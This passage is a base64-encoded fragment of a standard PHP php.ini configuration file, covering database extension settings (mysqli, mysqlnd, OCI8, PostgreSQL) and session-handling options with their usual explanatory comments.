5IGluIHNhZmUgbW9kZSkuCjsgTm90ZSB0aGF0IHRoaXMgaXMgZ2VuZXJhbGx5IGEgKmJhZCogaWRlYSB0byBzdG9yZSBwYXNzd29yZHMgaW4gdGhpcyBmaWxlLgo7ICpBbnkqIHVzZXIgd2l0aCBQSFAgYWNjZXNzIGNhbiBydW4gJ2VjaG8gZ2V0X2NmZ192YXIoIm15c3FsaS5kZWZhdWx0X3B3IikKOyBhbmQgcmV2ZWFsIHRoaXMgcGFzc3dvcmQhICBBbmQgb2YgY291cnNlLCBhbnkgdXNlcnMgd2l0aCByZWFkIGFjY2VzcyB0byB0aGlzCjsgZmlsZSB3aWxsIGJlIGFibGUgdG8gcmV2ZWFsIHRoZSBwYXNzd29yZCBhcyB3ZWxsLgo7IGh0dHA6Ly9waHAubmV0L215c3FsaS5kZWZhdWx0LXB3Cm15c3FsaS5kZWZhdWx0X3B3ID0KCjsgQWxsb3cgb3IgcHJldmVudCByZWNvbm5lY3QKbXlzcWxpLnJlY29ubmVjdCA9IE9mZgoKW215c3FsbmRdCjsgRW5hYmxlIC8gRGlzYWJsZSBjb2xsZWN0aW9uIG9mIGdlbmVyYWwgc3RhdGlzdGljcyBieSBteXNxbG5kIHdoaWNoIGNhbiBiZQo7IHVzZWQgdG8gdHVuZSBhbmQgbW9uaXRvciBNeVNRTCBvcGVyYXRpb25zLgpteXNxbG5kLmNvbGxlY3Rfc3RhdGlzdGljcyA9IE9uCgo7IEVuYWJsZSAvIERpc2FibGUgY29sbGVjdGlvbiBvZiBtZW1vcnkgdXNhZ2Ugc3RhdGlzdGljcyBieSBteXNxbG5kIHdoaWNoIGNhbiBiZQo7IHVzZWQgdG8gdHVuZSBhbmQgbW9uaXRvciBNeVNRTCBvcGVyYXRpb25zLgpteXNxbG5kLmNvbGxlY3RfbWVtb3J5X3N0YXRpc3RpY3MgPSBPZmYKCjsgUmVjb3JkcyBjb21tdW5pY2F0aW9uIGZyb20gYWxsIGV4dGVuc2lvbnMgdXNpbmcgbXlzcWxuZCB0byB0aGUgc3BlY2lmaWVkIGxvZwo7IGZpbGUuCjsgaHR0cDovL3BocC5uZXQvbXlzcWxuZC5kZWJ1Zwo7bXlzcWxuZC5kZWJ1ZyA9Cgo7IERlZmluZXMgd2hpY2ggcXVlcmllcyB3aWxsIGJlIGxvZ2dlZC4KO215c3FsbmQubG9nX21hc2sgPSAwCgo7IERlZmF1bHQgc2l6ZSBvZiB0aGUgbXlzcWxuZCBtZW1vcnkgcG9vbCwgd2hpY2ggaXMgdXNlZCBieSByZXN1bHQgc2V0cy4KO215c3FsbmQubWVtcG9vbF9kZWZhdWx0X3NpemUgPSAxNjAwMAoKOyBTaXplIG9mIGEgcHJlLWFsbG9jYXRlZCBidWZmZXIgdXNlZCB3aGVuIHNlbmRpbmcgY29tbWFuZHMgdG8gTXlTUUwgaW4gYnl0ZXMuCjtteXNxbG5kLm5ldF9jbWRfYnVmZmVyX3NpemUgPSAyMDQ4Cgo7IFNpemUgb2YgYSBwcmUtYWxsb2NhdGVkIGJ1ZmZlciB1c2VkIGZvciByZWFkaW5nIGRhdGEgc2VudCBieSB0aGUgc2VydmVyIGluCjsgYnl0ZXMuCjtteXNxbG5kLm5ldF9yZWFkX2J1ZmZlcl9zaXplID0gMzI3NjgKCjsgVGltZW91dCBmb3IgbmV0d29yayByZXF1ZXN0cyBpbiBzZWNvbmRzLgo7bXlzcWxuZC5uZXRfcmVhZF90aW1lb3V0ID0gMzE1MzYwMDAKCjsgU0hBLTI1NiBBdXRoZW50aWNhdGlvbiBQbHVnaW4gcmVsYXRlZC4gRmlsZSB3aXRoIHRoZSBNeVNRTCBzZXJ2ZXIgcHVibGljIFJTQQo7IGtleS4KO215c3FsbmQuc2hhMjU2X3NlcnZlcl9wdWJsaWNfa2V5ID0KCltPQ0k4XQoKOyBDb25uZWN0aW9uOiBFbmFibGVzIHByaXZpbGVnZWQgY29ubmVjdGlvbnMgdXNpbmcgZXh0ZXJuYWwKOyBjcmVkZW50aWFscyAoT0NJX1NZU09QRVIsIE9DSV9TWVNEQkEpCjsgaHR0cDovL3BocC5uZXQvb2NpOC5wcml2aWxlZ2VkLWNvbm5lY3QKO29jaTgucHJpdmlsZWdlZF9jb25uZWN0ID0gT2ZmCgo7IENvbm5lY3Rpb246IFRoZSBtYXhpbXVtIG51bWJlciBvZiBwZXJzaXN0ZW50IE9DSTggY29ubmVjdGlvbnMgcGVyCjsgcHJvY2Vzcy4gVXNpbmcgLTEgbWVhbnMgbm8gbGltaXQuCjsgaHR0cDovL3BocC5uZXQvb2NpOC5tYXgtcGVyc2lzdGVudAo7b2NpOC5tYXhfcGVyc2lzdGVudCA9IC0xCgo7IENvbm5lY3Rpb246IFRoZSBtYXhpbXVtIG51bWJlciBvZiBzZWNvbmRzIGEgcHJvY2VzcyBpcyBhbGxvd2VkIHRvCjsgbWFpbnRhaW4gYW4gaWRsZSBwZXJzaXN0ZW50IGNvbm5lY3Rpb24uIFVzaW5nIC0xIG1lYW5zIGlkbGUKOyBwZXJzaXN0ZW50IGNvbm5lY3Rpb25zIHdpbGwgYmUgbWFpbnRhaW5lZCBmb3JldmVyLgo7IGh0dHA6Ly9waHAubmV0L29jaTgucGVyc2lzdGVudC10aW1lb3V0CjtvY2k4LnBlcnNpc3RlbnRfdGltZW91dCA9IC0xCgo7IENvbm5lY3Rpb246IFRoZSBudW1iZXIgb2Ygc2Vjb25kcyB0aGF0IG11c3QgcGFzcyBiZWZvcmUgaXNzdWluZyBhCjsgcGluZyBkdXJpbmcgb2NpX3Bjb25uZWN0KCkgdG8gY2hlY2sgdGhlIGNvbm5lY3Rpb24gdmFsaWRpdHkuIFdoZW4KOyBzZXQgdG8gMCwgZWFjaCBvY2lfcGNvbm5lY3QoKSB3aWxsIGNhdXNlIGEgcGluZy4gVXNpbmcgLTEgZGlzYWJsZXMKOyBwaW5ncyBjb21wbGV0ZWx5Lgo7IGh0dHA6Ly9waHAubmV0L29jaTgucGluZy1pbnRlcnZhbAo7b2NpOC5waW5nX2ludGVydmFsID0gNjAKCjsgQ29ubmVjdGlvbjogU2V0IHRoaXMgdG8gYSB1c2VyIGNob3NlbiBjb25uZWN0aW9uIGNsYXNzIHRvIGJlIHVzZWQKOyBmb3IgYWxsIHBvb2xlZCBzZXJ2ZXIgcmVxdWVzdHMgd2l0aCBPcmFjbGUgMTFnIERhdGFiYXNlIFJlc2lkZW50CjsgQ29ubmVjdGlvbiBQb29saW5nIChEUkNQKS4gIFRvIHVzZSBEUkNQLCB0aGlzIHZhbHVlIHNob3VsZCBiZSBzZXQgdG8KOyB0aGUgc2FtZSBzdHJpbmcgZm9yIGFsbCB3ZWIgc2VydmVycyBydW5uaW5nIHRoZSBzYW1lIGFwcGxpY2F0aW9uLAo7IHRoZSBkYXRhYmFzZSBwb29sIG11c3QgYmUgY29uZmlndXJlZCwgYW5kIHRoZSBjb25uZWN0aW9uIHN0cmluZyBtdXN0Cjsgc3BlY2lmeSB0byB1c2UgYSBwb29sZWQgc2VydmVyLgo7b2NpOC5jb25uZWN0aW9uX2NsYXNzID0KCjsgSGlnaCBBdmFpbGFiaWxpdHk6IFVzaW5nIE9uIGxldHMgUEhQIHJlY2VpdmUgRmFzdCBBcHBsaWNhdGlvbgo7IE5vdGlmaWNhdGlvbiAoRkFOKSBldmVudHMgZ2VuZXJhdGVkIHdoZW4gYSBkYXRhYmFzZSBub2RlIGZhaWxzLiBUaGUKOyBkYXRhYmFzZSBtdXN0IGFsc28gYmUgY29uZmlndXJlZCB0byBwb3N0IEZBTiBldmVudHMuCjtvY2k4LmV2ZW50cyA9IE9mZgoKOyBUdW5pbmc6IFRoaXMgb3B0aW9uIGVuYWJsZXMgc3RhdGVtZW50IGNhY2hpbmcsIGFuZCBzcGVjaWZpZXMgaG93CjsgbWFueSBzdGF0ZW1lbnRzIHRvIGNhY2hlLiBVc2luZyAwIGRpc2FibGVzIHN0YXRlbWVudCBjYWNoaW5nLgo7IGh0dHA6Ly9waHAubmV0L29jaTguc3RhdGVtZW50LWNhY2hlLXNpemUKO29jaTguc3RhdGVtZW50X2NhY2hlX3NpemUgPSAyMAoKOyBUdW5pbmc6IEVuYWJsZXMgc3RhdGVtZW50IHByZWZldGNoaW5nIGFuZCBzZXRzIHRoZSBkZWZhdWx0IG51bWJlciBvZgo7IHJvd3MgdGhhdCB3aWxsIGJlIGZldGNoZWQgYXV0b21hdGljYWxseSBhZnRlciBzdGF0ZW1lbnQgZXhlY3V0aW9uLgo7IGh0dHA6Ly9waHAubmV0L29jaTguZGVmYXVsdC1wcmVmZXRjaAo7b2NpOC5kZWZhdWx0X3ByZWZldGNoID0gMTAwCgo7IENvbXBhdGliaWxpdHkuIFVzaW5nIE9uIG1lYW5zIG9jaV9jbG9zZSgpIHdpbGwgbm90IGNsb3NlCjsgb2NpX2Nvbm5lY3QoKSBhbmQgb2NpX25ld19jb25uZWN0KCkgY29ubmVjdGlvbnMuCjsgaHR0cDovL3BocC5uZXQvb2NpOC5vbGQtb2NpLWNsb3NlLXNlbWFudGljcwo7b2NpOC5vbGRfb2NpX2Nsb3NlX3NlbWFudGljcyA9IE9mZgoKW1Bvc3RncmVTUUxdCjsgQWxsb3cgb3IgcHJldmVudCBwZXJzaXN0ZW50IGxpbmtzLgo7IGh0dHA6Ly9waHAubmV0L3Bnc3FsLmFsbG93LXBlcnNpc3RlbnQKcGdzcWwuYWxsb3dfcGVyc2lzdGVudCA9IE9uCgo7IERldGVjdCBicm9rZW4gcGVyc2lzdGVudCBsaW5rcyBhbHdheXMgd2l0aCBwZ19wY29ubmVjdCgpLgo7IEF1dG8gcmVzZXQgZmVhdHVyZSByZXF1aXJlcyBhIGxpdHRsZSBvdmVyaGVhZHMuCjsgaHR0cDovL3BocC5uZXQvcGdzcWwuYXV0by1yZXNldC1wZXJzaXN0ZW50CnBnc3FsLmF1dG9fcmVzZXRfcGVyc2lzdGVudCA9IE9mZgoKOyBNYXhpbXVtIG51bWJlciBvZiBwZXJzaXN0ZW50IGxpbmtzLiAgLTEgbWVhbnMgbm8gbGltaXQuCjsgaHR0cDovL3BocC5uZXQvcGdzcWwubWF4LXBlcnNpc3RlbnQKcGdzcWwubWF4X3BlcnNpc3RlbnQgPSAtMQoKOyBNYXhpbXVtIG51bWJlciBvZiBsaW5rcyAocGVyc2lzdGVudCtub24gcGVyc2lzdGVudCkuICAtMSBtZWFucyBubyBsaW1pdC4KOyBodHRwOi8vcGhwLm5ldC9wZ3NxbC5tYXgtbGlua3MKcGdzcWwubWF4X2xpbmtzID0gLTEKCjsgSWdub3JlIFBvc3RncmVTUUwgYmFja2VuZHMgTm90aWNlIG1lc3NhZ2Ugb3Igbm90Lgo7IE5vdGljZSBtZXNzYWdlIGxvZ2dpbmcgcmVxdWlyZSBhIGxpdHRsZSBvdmVyaGVhZHMuCjsgaHR0cDovL3BocC5uZXQvcGdzcWwuaWdub3JlLW5vdGljZQpwZ3NxbC5pZ25vcmVfbm90aWNlID0gMAoKOyBMb2cgUG9zdGdyZVNRTCBiYWNrZW5kcyBOb3RpY2UgbWVzc2FnZSBvciBub3QuCjsgVW5sZXNzIHBnc3FsLmlnbm9yZV9ub3RpY2U9MCwgbW9kdWxlIGNhbm5vdCBsb2cgbm90aWNlIG1lc3NhZ2UuCjsgaHR0cDovL3BocC5uZXQvcGdzcWwubG9nLW5vdGljZQpwZ3NxbC5sb2dfbm90aWNlID0gMAoKW2JjbWF0aF0KOyBOdW1iZXIgb2YgZGVjaW1hbCBkaWdpdHMgZm9yIGFsbCBiY21hdGggZnVuY3Rpb25zLgo7IGh0dHA6Ly9waHAubmV0L2JjbWF0aC5zY2FsZQpiY21hdGguc2NhbGUgPSAwCgpbYnJvd3NjYXBdCjsgaHR0cDovL3BocC5uZXQvYnJvd3NjYXAKO2Jyb3dzY2FwID0gZXh0cmEvYnJvd3NjYXAuaW5pCgpbU2Vzc2lvbl0KOyBIYW5kbGVyIHVzZWQgdG8gc3RvcmUvcmV0cmlldmUgZGF0YS4KOyBodHRwOi8vcGhwLm5ldC9zZXNzaW9uLnNhdmUtaGFuZGxlcgpzZXNzaW9uLnNhdmVfaGFuZGxlciA9IGZpbGVzCgo7IEFyZ3VtZW50IHBhc3NlZCB0byBzYXZlX2hhbmRsZXIuICBJbiB0aGUgY2FzZSBvZiBmaWxlcywgdGhpcyBpcyB0aGUgcGF0aAo7IHdoZXJlIGRhdGEgZmlsZXMgYXJlIHN0b3JlZC4gTm90ZTogV2luZG93cyB1c2VycyBoYXZlIHRvIGNoYW5nZSB0aGlzCjsgdmFyaWFibGUgaW4gb3JkZXIgdG8gdXNlIFBIUCdzIHNlc3Npb24gZnVuY3Rpb25zLgo7CjsgVGhlIHBhdGggY2FuIGJlIGRlZmluZWQgYXM6CjsKOyAgICAgc2Vzc2lvbi5zYXZlX3BhdGggPSAiTjsvcGF0aCIKOwo7IHdoZXJlIE4gaXMgYW4gaW50ZWdlci4gIEluc3RlYWQgb2Ygc3RvcmluZyBhbGwgdGhlIHNlc3Npb24gZmlsZXMgaW4KOyAvcGF0aCwgd2hhdCB0aGlzIHdpbGwgZG8gaXMgdXNlIHN1YmRpcmVjdG9yaWVzIE4tbGV2ZWxzIGRlZXAsIGFuZAo7IHN0b3JlIHRoZSBzZXNzaW9uIGRhdGEgaW4gdGhvc2UgZGlyZWN0b3JpZXMuICBUaGlzIGlzIHVzZWZ1bCBpZgo7IHlvdXIgT1MgaGFzIHByb2JsZW1zIHdpdGggbWFueSBmaWxlcyBpbiBvbmUgZGlyZWN0b3J5LCBhbmQgaXMKOyBhIG1vcmUgZWZmaWNpZW50IGxheW91dCBmb3Igc2VydmVycyB0aGF0IGhhbmRsZSBtYW55IHNlc3Npb25zLgo7CjsgTk9URSAxOiBQSFAgd2lsbCBub3QgY3JlYXRlIHRoaXMgZGlyZWN0b3J5IHN0cnVjdHVyZSBhdXRvbWF0aWNhbGx5Lgo7ICAgICAgICAgWW91IGNhbiB1c2UgdGhlIHNjcmlwdCBpbiB0aGUgZXh0L3Nlc3Npb24gZGlyIGZvciB0aGF0IHB1cnBvc2UuCjsgTk9URSAyOiBTZWUgdGhlIHNlY3Rpb24gb24gZ2FyYmFnZSBjb2xsZWN0aW9uIGJlbG93IGlmIHlvdSBjaG9vc2UgdG8KOyAgICAgICAgIHVzZSBzdWJkaXJlY3RvcmllcyBmb3Igc2Vzc2lvbiBzdG9yYWdlCjsKOyBUaGUgZmlsZSBzdG9yYWdlIG1vZHVsZSBjcmVhdGVzIGZpbGVzIHVzaW5nIG1vZGUgNjAwIGJ5IGRlZmF1bHQuCjsgWW91IGNhbiBjaGFuZ2UgdGhhdCBieSB1c2luZwo7CjsgICAgIHNlc3Npb24uc2F2ZV9wYXRoID0gIk47TU9ERTsvcGF0aCIKOwo7IHdoZXJlIE1PREUgaXMgdGhlIG9jdGFsIHJlcHJlc2VudGF0aW9uIG9mIHRoZSBtb2RlLiBOb3RlIHRoYXQgdGhpcwo7IGRvZXMgbm90IG92ZXJ3cml0ZSB0aGUgcHJvY2VzcydzIHVtYXNrLgo7IGh0dHA6Ly9waHAubmV0L3Nlc3Npb24uc2F2ZS1wYXRoCjtzZXNzaW9uLnNhdmVfcGF0aCA9ICIvdmFyL2xpYi9waHAvc2Vzc2lvbnMiCgo7IFdoZXRoZXIgdG8gdXNlIHN0cmljdCBzZXNzaW9uIG1vZGUuCjsgU3RyaWN0IHNlc3Npb24gbW9kZSBkb2VzIG5vdCBhY2NlcHQgYW4gdW5pbml0aWFsaXplZCBzZXNzaW9uIElELCBhbmQKOyByZWdlbmVyYXRlcyB0aGUgc2Vzc2lvbiBJRCBpZiB0aGUgYnJvd3NlciBzZW5kcyBhbiB1bmluaXRpYWxpemVkIHNlc3Npb24gSUQuCjsgU3RyaWN0IG1vZGUgcHJvdGVjdHMgYXBwbGljYXRpb25zIGZyb20gc2Vzc2lvbiBmaXhhdGlvbiB2aWEgYSBzZXNzaW9uIGFkb3B0aW9uCjsgdnVsbmVyYWJpbGl0eS4gSXQgaXMgZGlzYWJsZWQgYnkgZGVmYXVsdCBmb3IgbWF4aW11bSBjb21wYXRpYmlsaXR5LCBidXQKOyBlbmFibGluZyBpdCBpcyBlbmNvdXJhZ2VkLgo7IGh0dHBzOi8vd2lraS5waHAubmV0L3JmYy9zdHJpY3Rfc2Vzc2lvbnMKc2Vzc2lvbi51c2Vfc3RyaWN0X21vZGUgPSAwCgo7IFdoZXRoZXIgdG8gdXNlIGNvb2tpZXMuCjsgaHR0cDovL3BocC5uZXQvc2Vzc2lvbi51c2UtY29va2llcwpzZXNzaW9uLnVzZV9jb29raWVzID0gMQoKOyBodHRwOi8vcGhwLm5ldC9zZXNzaW9uLmNvb2tpZS1zZWN1cmUKO3Nlc3Npb24uY29va2llX3NlY3VyZSA9Cgo7IFRoaXMgb3B0aW9uIGZvcmNlcyBQSFAgdG8gZmV0Y2ggYW5kIHVzZSBhIGNvb2tpZSBmb3Igc3RvcmluZyBhbmQgbWFpbnRhaW5pbmcKOyB0aGUgc2Vzc2lvbiBpZC4gV2UgZW5jb3VyYWdlIHRoaXMgb3BlcmF0aW9uIGFzIGl0J3MgdmVyeSBoZWxwZnVsIGluIGNvbWJhdGluZwo7IHNlc3Npb24gaGlqYWNraW5nIHdoZW4gbm90IHNwZWNpZnlpbmcgYW5kIG1hbmFnaW5nIHlvdXIgb3duIHNlc3Npb24gaWQuIEl0IGlzCjsgbm90IHRoZSBiZS1hbGwgYW5kIGVuZC1hbGwgb2Ygc2Vzc2lvbiBoaWphY2tpbmcgZGVmZW5zZSwgYnV0IGl0J3MgYSBnb29kIHN0YXJ0Lgo7IGh0dHA6Ly9waHAubmV0L3Nlc3Npb24udXNlLW9ubHktY29va2llcwpzZXNzaW9uLnVzZV9vbmx5X2Nvb2tpZXMgPSAxCgo7IE5hbWUgb2YgdGhlIHNlc3Npb24gKHVzZWQgYXMgY29va2llIG5hbWUpLgo7IGh0dHA6Ly9waHAubmV0L3Nlc3Npb24ubmFtZQpzZXNzaW9uLm5hbWUgPSBQSFBTRVNTSUQKCjsgSW5pdGlhbGl6ZSBzZXNzaW9uIG9uIHJlcXVlc3Qgc3RhcnR1cC4KOyBodHRwOi8vcGhwLm5ldC9zZXNzaW9uLmF1dG8tc3RhcnQKc2Vzc2lvbi5hdXRvX3N0YXJ0ID0gMAoKOyBMaWZldGltZSBpbiBzZWNvbmRzIG9mIGNvb2tpZSBvciwgaWYgMCwgdW50aWwgYnJvd3NlciBpcyByZXN0YXJ0ZWQuCjsgaHR0cDovL3BocC5uZXQvc2Vzc2lvbi5jb29raWUtbGlmZXRpbWUKc2Vzc2lvbi5jb29raWVfbGlmZXRpbWUgPSAwCgo7IFRoZSBwYXRoIGZvciB3aGljaCB0aGUgY29va2llIGlzIHZhbGlkLgo7IGh0dHA6Ly9waHAubmV0L3Nlc3Npb24uY29va2llLXBhdGgKc2Vzc2lvbi5jb29raWVfcGF0aCA9IC8KCjsgVGhlIGRvbWFpbiBmb3Igd2hpY2ggdGhlIGNvb2tpZSBpcyB2YWxpZC4KOyBodHRwOi8vcGhwLm5ldC9zZXNzaW9uLmNvb2tpZS1kb21haW4Kc2Vzc2lvbi5jb29raWVfZG9tYWluID0KCjsgV2hldGhlciBvciBub3QgdG8gYWRkIHRoZSBodHRwT25seSBmbGFnIHRvIHRoZSBjb29raWUsIHdoaWNoIG1ha2VzIGl0CjsgaW5hY2Nlc3NpYmxlIHRvIGJyb3dzZXIgc2NyaXB0aW5nIGxhbmd1YWdlcyBzdWNoIGFzIEphdmFTY3JpcHQuCjsgaHR0cDovL3BocC5uZXQvc2Vzc2lvbi5jb29raWUtaHR0cG9ubHkKc2Vzc2lvbi5jb29raWVfaHR0cG9ubHkgPQoKOyBBZGQgU2FtZVNpdGUgYXR0cmlidXRlIHRvIGNvb2tpZSB0byBoZWxwIG1pdGlnYXRlIENyb3NzLVNpdGUgUmVxdWVzdCBGb3JnZXJ5IChDU1JGL1hTUkYpCjsgQ3VycmVudCB2YWxpZCB2YWx1ZXMgYXJlICJMYXgiIG9yICJTdHJpY3QiCjsgaHR0cHM6Ly90b29scy5pZXRmLm9yZy9odG1sL2RyYWZ0LXdlc3QtZmlyc3QtcGFydHktY29va2llcy0wNwpzZXNzaW9uLmNvb2tpZV9zYW1lc2l0ZSA9Cgo7IEhhbmRsZXIgdXNlZCB0byBzZXJpYWxpemUgZGF0YS4gcGhwIGlzIHRoZSBzdGFuZGFyZCBzZXJpYWxpemVyIG9mIFBIUC4KOyBodHRwOi8vcGhwLm5ldC9zZXNzaW9uLnNlcmlhbGl6ZS1oYW5kbGVyCnNlc3Npb24uc2VyaWFsaXplX2hhbmRsZXIgPSBwaHAKCjsgRGVmaW5lcyB0aGUgcHJvYmFiaWxpdHkgdGhhdCB0aGUgJ2dhcmJhZ2UgY29sbGVjdGlvbicgcHJvY2VzcyBpcyBzdGFydGVkIG9uIGV2ZXJ5Cjsgc2Vzc2lvbiBpbml0aWFsaXphdGlvbi4gVGhlIHByb2JhYmlsaXR5IGlzIGNhbGN1bGF0ZWQgYnkgdXNpbmcgZ2NfcHJvYmFiaWxpdHkvZ2NfZGl2aXNvciwKOyBlLmcuIDEvMTAwIG1lYW5zIHRoZXJlIGlzIGEgMSUgY2hhbmNlIHRoYXQgdGhlIEdDIHByb2Nlc3Mgc3RhcnRzIG9uIGVhY2ggcmVxdWVzdC4KOyBEZWZhdWx0IFZhbHVlOiAxCjsgRGV2ZWxvcG1lbnQgVmFsdWU6IDEKOyBQcm9kdWN0aW9uIFZhbHVlOiAxCjsgaHR0cDovL3BocC5uZXQvc2Vzc2lvbi5nYy1wcm9iYWJpbGl0eQpzZXNzaW9uLmdjX3Byb2JhYmlsaXR5ID0gMAoKOyBEZWZpbmVzIHRoZSBwcm9iYWJpbGl0eSB0aGF0IHRoZSAnZ2FyYmFnZSBjb2xsZWN0aW9uJyBwcm9jZXNzIGlzIHN0YXJ0ZWQgb24gZXZlcnkKOyBzZXNzaW9uIGluaXRpYWxpemF0aW9uLiBUaGUgcHJvYmFiaWxpdHkgaXMgY2FsY3VsYXRlZCBieSB1c2luZyBnY19wcm9iYWJpbGl0eS9nY19kaXZpc29yLAo7IGUuZy4gMS8xMDAgbWVhbnMgdGhlcmUgaXMgYSAxJSBjaGFuY2UgdGhhdCB0aGUgR0MgcHJvY2VzcyBzdGFydHMgb24gZWFjaCByZXF1ZXN0Lgo7IEZvciBoaWdoIHZvbHVtZSBwcm9kdWN0aW9uIHNlcnZlcnMsIHVzaW5nIGEgdmFsdWUgb2YgMTAwMCBpcyBhIG1vcmUgZWZmaWNpZW50IGFwcHJvYWNoLgo7IERlZmF1bHQgVmFsdWU6IDEwMAo7IERldmVsb3BtZW50IFZhbHVlOiAxMDAwCjsgUHJvZHVjdGlvbiBWYWx1ZTogMTAwMAo7IGh0dHA6Ly9waHAubmV0L3Nlc3Npb24uZ2MtZGl2aXNvcgpzZXNzaW9uLmdjX2Rpdmlzb3IgPSAxMDAwCgo7IEFmdGVyIHRoaXMgbnVtYmVyIG9mIHNlY29uZHMsIHN0b3JlZCBkYXRhIHdpbGwgYmUgc2VlbiBhcyAnZ2FyYmFnZScgYW5kCjsgY2xlYW5lZCB1cCBieSB0aGUgZ2FyYmFnZSBjb2xsZWN0aW9uIHByb2Nlc3MuCjsgaHR0cDovL3BocC5uZXQvc2Vzc2lvbi5nYy1tYXhsaWZldGltZQpzZXNzaW9uLmdjX21heGxpZmV0aW1lID0gMTQ0MAoKOyBOT1RFOiBJZiB5b3UgYXJlIHVzaW5nIHRoZSBzdWJkaXJlY3Rvcnkgb3B0aW9uIGZvciBzdG9yaW5nIHNlc3Npb24gZmlsZXMKOyAgICAgICAoc2VlIHNlc3Npb24uc2F2ZV9wYXRoIGFib3ZlKSwgdGhlbiBnYXJiYWdlIGNvbGxlY3Rpb24gZG9lcyAqbm90Kgo7ICAgICAgIGhhcHBlbiBhdXRvbWF0aWNhbGx5LiAgWW91IHdpbGwgbmVlZCB0byBkbyB5b3VyIG93biBnYXJiYWdlCjsgICAgICAgY29sbGVjdGlvbiB0aHJvdWdoIGEgc2hlbGwgc2NyaXB0LCBjcm9uIGVudHJ5LCBvciBzb21lIG90aGVyIG1ldGhvZC4KOyAgICAgICBGb3IgZXhhbXBsZSwgdGhlIGZvbGxvd2luZyBzY3JpcHQgd291bGQgaXMgdGhlIGVxdWl2YWxlbnQgb2YKOyAgICAgICBzZXR0aW5nIHNlc3Npb24uZ2NfbWF4bGlmZXRpbWUgdG8gMTQ0MCAoMTQ0MCBzZWNvbmRzID0gMjQgbWludXRlcyk6CjsgICAgICAgICAgZmluZCAvcGF0aC90by9zZXNzaW9ucyAtY21pbiArMjQgLXR5cGUgZiB8IHhhcmdzIHJtCgo7IENoZWNrIEhUVFAgUmVmZXJlciB0byBpbnZhbGlkYXRlIGV4dGVybmFsbHkgc3RvcmVkIFVSTHMgY29udGFpbmluZyBpZHMuCjsgSFRUUF9SRUZFUkVSIGhhcyB0byBjb250YWluIHRoaXMgc3Vic3RyaW5nIGZvciB0aGUgc2Vzc2lvbiB0byBiZQo7IGNvbnNpZGVyZWQgYXMgdmFsaWQuCjsgaHR0cDovL3BocC5uZXQvc2Vzc2lvbi5yZWZlcmVyLWNoZWNrCnNlc3Npb24ucmVmZXJlcl9jaGVjayA9Cgo7IFNldCB0byB7bm9jYWNoZSxwcml2YXRlLHB1YmxpYyx9IHRvIGRldGVybWluZSBIVFRQIGNhY2hpbmcgYXNwZWN0cwo7IG9yIGxlYXZlIHRoaXMgZW1wdHkgdG8gYXZvaWQgc2VuZGluZyBhbnRpLWNhY2hpbmcgaGVhZGVycy4KOyBodHRwOi8vcGhwLm5ldC9zZXNzaW9uLmNhY2hlLWxpbWl0ZXIKc2Vzc2lvbi5jYWNoZV9saW1pdGVyID0gbm9jYWNoZQoKOyBEb2N1bWVudCBleHBpcmVzIGFmdGVyIG4gbWludXRlcy4KOyBodHRwOi8vcGhwLm5ldC9zZXNzaW9uLmNhY2hlLWV4cGlyZQpzZXNzaW9uLmNhY2hlX2V4cGlyZSA9IDE4MAoKOyB0cmFucyBzaWQgc3VwcG9ydCBpcyBkaXNhYmxlZCBieSBkZWZhdWx0Lgo7IFVzZSBvZiB0cmFucyBzaWQgbWF5IHJpc2sgeW91ciB1c2Vycycgc2VjdXJpdHkuCjsgVXNlIHRoaXMgb3B0aW9uIHdpdGggY2F1dGlvbi4KOyAtIFVzZXIgbWF5IHNlbmQgVVJMIGNvbnRhaW5zIGFjdGl2ZSBzZXNzaW9uIElECjsgICB0byBvdGhlciBwZXJzb24gdmlhLiBlbWFpbC9pcmMvZXRjLgo7IC0gVVJMIHRoYXQgY29udGFpbnMgYWN0aXZlIHNlc3Npb24gSUQgbWF5IGJlIHN0b3JlZAo7ICAgaW4gcHVibGljbHkgYWNjZXNzaWJsZSBjb21wdXRlci4KOyAtIFVzZXIgbWF5IGFjY2VzcyB5b3VyIHNpdGUgd2l0aCB0aGUgc2FtZSBzZXNzaW9uIElECjsgICBhbHdheXMgdXNpbmcgVVJMIHN0b3JlZCBpbiBicm93c2VyJ3MgaGlzdG9yeSBvciBib29rbWFya3MuCjsgaHR0cDovL3BocC5uZXQvc2Vzc2lvbi51c2UtdHJhbnMtc2lkCnNlc3Npb24udXNlX3RyYW5zX3NpZCA9IDAKCjsgU2V0IHNlc3Npb24gSUQgY2hhcmFjdGVyIGxlbmd0aC4gVGhpcyB2YWx1ZSBjb3VsZCBiZSBiZXR3ZWVuIDIyIHRvIDI1Ni4KOyBTaG9ydGVyIGxlbmd0aCB0aGFuIGRlZmF1bHQgaXMgc3VwcG9ydGVkIG9ubHkgZm9yIGNvbXBhdGliaWxpdHkgcmVhc29uLgo7IFVzZXJzIHNob3VsZCB1c2UgMzIgb3IgbW9yZSBjaGFycy4KOyBodHRwOi8vcGhwLm5ldC9zZXNzaW9uLnNpZC1sZW5ndGgKOyBEZWZhdWx0IFZhbHVlOiAzMgo7IERldmVsb3BtZW50IFZhbHVlOiAyNgo7IFByb2R1Y3Rpb24gVmFsdWU6IDI2CnNlc3Npb24uc2lkX2xlbmd0aCA9IDI2Cgo7IFRoZSBVUkwgcmV3cml0ZXIgd2lsbCBsb29rIGZvciBVUkxzIGluIGEgZGVmaW5lZCBzZXQgb2YgSFRNTCB0YWdzLgo7IDxmb3JtPiBpcyBzcGVjaWFsOyBpZiB5b3UgaW5jbHVkZSB0aGVtIGhlcmUsIHRoZSByZXdyaXRlciB3aWxsCjsgYWRkIGEgaGlkZGVuIDxpbnB1dD4gZmllbGQgd2l0aCB0aGUgaW5mbyB3aGljaCBpcyBvdGhlcndpc2UgYXBwZW5kZWQKOyB0byBVUkxzLiA8Zm9ybT4gdGFnJ3MgYWN0aW9uIGF0dHJpYnV0ZSBVUkwgd2lsbCBub3QgYmUgbW9kaWZpZWQKOyB1bmxlc3MgaXQgaXMgc3BlY2lmaWVkLgo7IE5vdGUgdGhhdCBhbGwgdmFsaWQgZW50cmllcyByZXF1aXJlIGEgIj0iLCBldmVuIGlmIG5vIHZhbHVlIGZvbGxvd3MuCjsgRGVmYXVsdCBWYWx1ZTogImE9aHJlZixhcmVhPWhyZWYsZnJhbWU9c3JjLGZvcm09Igo7IERldmVsb3BtZW50IFZhbHVlOiAiYT1ocmVmLGFyZWE9aHJlZixmcmFtZT1zcmMsZm9ybT0iCjsgUHJvZHVjdGlvbiBWYWx1ZTogImE9aHJlZixhcmVhPWhyZWYsZnJhbWU9c3JjLGZvcm09Igo7IGh0dHA6Ly9waHAubmV0L3VybC1yZXdyaXRlci50YWdzCnNlc3Npb24udHJhb